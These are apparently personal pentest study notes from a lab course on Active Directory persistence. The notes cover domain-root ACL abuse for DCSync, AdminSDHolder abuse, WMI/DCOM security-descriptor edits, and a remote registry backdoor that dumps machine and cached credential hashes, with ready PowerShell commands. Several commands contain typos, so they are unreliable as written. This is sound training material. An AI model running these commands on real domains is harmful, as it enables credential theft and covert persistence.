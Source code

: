 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#powershell
- With DA privs, the ACL of the domain root can be modified to provide usefull rights  like FullControl or the ability to run DCSync.
```powershell
# Give yourself Fullcontrol over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -Rights All -Verbose
# Give yourself DCSync rights over the root domain object
Add-ObjectAcl -TargetDisguishedName 'DC=mydomain,DC=local' -PrincipalSamAccountName doctordragon -GUIDRight DCSync -Verbose
```
# AdminSDHolder
- An object that holds a blueprint of ACLs for certain built-in privileged group called Protected Groups
- A Security Descriptor Propagator (SDPROP) runs every hour and overwrites the ACL from this container to all the member of the protected group.
### Protected Groups
- Account Operators
- Backup Operators
- Server Operators
- Print Operators
- Domain Admins
- Replicator
- Enterprise Admins
- Domain Controllers
- Read-only Domain Controllers
- Schema Admins
- Administrators
#### Well Known Groups for Abuse
- Account Operator - Cannot modify DA/EA/BA groups. Can modify nested groups within these groups
- Backup Operator - Backup GPO, edit or add SID of controlled account to a privileged group and restore
- Server Operators - Run a command as SYSTEM (using disabled browser service)
- Print Operator - copy ntds.dit backup, load device drivers
### AdminSDHolder Abuse
- If we can add our user to the AdminSDHolder object and give ourselves full control, the ACLs will propagate to all the protected objects and we will have full control over the protected objects.
```powershell
# Powerview module to add ACL to the AdminSDHolder group
Add-DomainObjectAcl -TargetIdneitity 'CN=AdminSDHolder, CN=System, DC=dollarcorp, DC=moneycorp, DC=local' -PrincipalIdenitty student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# We can change all to be ResetPassword,WriteMembers
# Run SDPropagator
Invoke-SDPrpagator -timeoutMinutes 1 -showProgrss -Verbose

# We can veryfiy the domain admin privs using powerview
Get-DomainObjectAcl -Identity 'Domain  Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"} 
``` 
# Securable Objects
### Security Descriptor
- The SDDL (Security Descriptor Definition Language) defines the format used to descibe a security descriptor. SDDL uses ACE string for SACL and DACL.
```powershell
ace_type;ace_flag;rights;object_guid;inherit_object_guid;accountSID
```

- By default, reguars users can't use remote WMI or Powershell remoting.
- We can edit the security descriptor or the remote WMI and DCOM Object to provide ourselves full control over those object which can let us run WMI and DCOM remotely. This can be done by giving ourselves rights to connect to DCOM and rights to the namespace.
1. DCOM: Component Serivces -> My Computer ->Properties ->  COM Security -> Edit Links -> Add User
2. WMI: Computer Management -> WMI Control -> Properties -> Security -> Add User
- This is useful for maintaining very silent persistence, as this will only result in a normal logon in the DC logs, along with every other user logons.
This can be done by using the RACE toolkit
```powershell
Set-RemoteWMI -SamAccountName studentx -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose

Set-RemotePSRemoting -SamAccountName studentx -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose

```
# Remote Registry
As a domain admin, we can use the `RACE` toolkit, to modify some registry keys, so that a regular user can:
- Retrieve machine account hash.
- Retrieve local account hash.
- Retrieve domain cached credentials.
```powershell
# Modify Regsitry keys
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee drdragon -verbose

# retrieve machine accout hash
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
Get-RemoteCachedCrednetials -ComputerName dcorp-dc -Verbose
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
